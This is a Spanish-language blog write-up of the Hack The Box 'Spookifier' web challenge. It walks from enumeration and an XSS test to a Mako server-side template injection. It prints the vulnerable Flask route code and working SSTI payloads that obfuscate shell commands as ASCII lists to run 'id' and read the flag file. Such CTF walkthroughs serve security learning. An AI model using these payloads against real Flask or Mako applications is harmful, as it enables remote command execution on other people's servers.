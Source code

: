 ```yaml
---
layout: post
title: Hack The Box Spookifier Write-Up
date: 2024-11-24
categories: [Write-Ups, HackTheBox, Challenge, Very-Easy]
tags: [SSTI, Halloween, Flask, Mako, Very-Easy, Web]
---
```

# Hack The Box: Spookifier Write-Up
El **challenge very-easy** [Spookifier](https://app.hackthebox.com/challenges/413) de [Hack The Box](https://app.hackthebox.com/) trata de la explotación de la vulnerabilidad web **SSTI en Flask**.
Casos reales de la vulnerabilidad:
- [HackerOne Report](https://hackerone.com/reports/125980)
## Enumeration
Iniciamos la instancia del reto, la cual nos representa una web con tematica de Halloween la cual si indicamos un string nos lo modifica con diferentes fuentes de letra al puro estilo Halloween.
![Webpage](/assets/post_details/spookifier/spookifier_webpage.png)

Realizamos una enumeración rapida con **whatweb** la cual nos encuentra que se esta ejecutando **python** en el servidor web, lo cual es interesante.
```bash
whatweb http://94.237.62.166:32266
```
![WhatWeb](/assets/post_details/spookifier/spookifier_whatweb.png)

En la pagina web, a traves del **dom** o input introducimos un payload basico de **xss**, el cual es exitoso por lo que vemos que es suceptible a ataques de [DOM based XSS](https://owasp.org/www-community/attacks/DOM_Based_XSS).
![DOM based XSS](/assets/post_details/spookifier/spookifier_dom_based_xss.png)

Lo primero que pensamos al ser susceptible a ataques **XSS** que esta puede ser explotada mediante **SSTI** ya que tambien corre **python**, analizando los archivos del reto, podemos analizar que esta utilizando el framework **Flask** el cual se le conoce por ataques **SSTI**.

Se puede apreciar que en el archivo **routes.py** es totalmente vulnerable a **SSTI** ya que no existe sanitización alguna, este articulo habla sobre las distintas fases de descubrir un **SSTI en Flask**:
- [SSTI in Flask](https://payatu.com/blog/server-side-template-injectionssti/)
```js
from flask import Blueprint, request
from flask_mako import render_template
from application.util import spookify

web = Blueprint('web', __name__)

@web.route('/')
def index():
    text = request.args.get('text')
    if(text):
        converted = spookify(text)
        return render_template('index.html',output=converted)
    
    return render_template('index.html',output='')
```

En nuestro caso el payload **SSTI** nos funciona de la siguiente manera `${7*7}` el cual realiza la operación.
![SSTI Payload Test](/assets/post_details/spookifier/spookifier_ssti_payload_test.png)
## Solution
En este articulo podemos ver la forma que utilizamos de explotación para templates **Mako** mediante caracteres **ASCII** ejecutamos comandos:
- [SSTI YesWeHack Explained](https://www.yeswehack.com/learn-bug-bounty/server-side-template-injection-exploitation)
```js
${self.module.cache.util.os.popen(str().join(chr(i)for(i)in[105,100])).read()}
```
![ID ASCII](/assets/post_details/spookifier/spookifier_ssti_payload_id.png)

Y mediante `cat ..\flag.txt` en **ASCII** obtenemos la flag, la ruta la sabemos mediante la estructura de los archivos descargados.
```js
${self.module.cache.util.os.popen(str().join(chr(i)for(i)in[99,97,116,32,46,46,47,102,108,97,103,46,116,120,116])).read()}
```
![Get Flag](/assets/post_details/spookifier/spookifier_flag.png)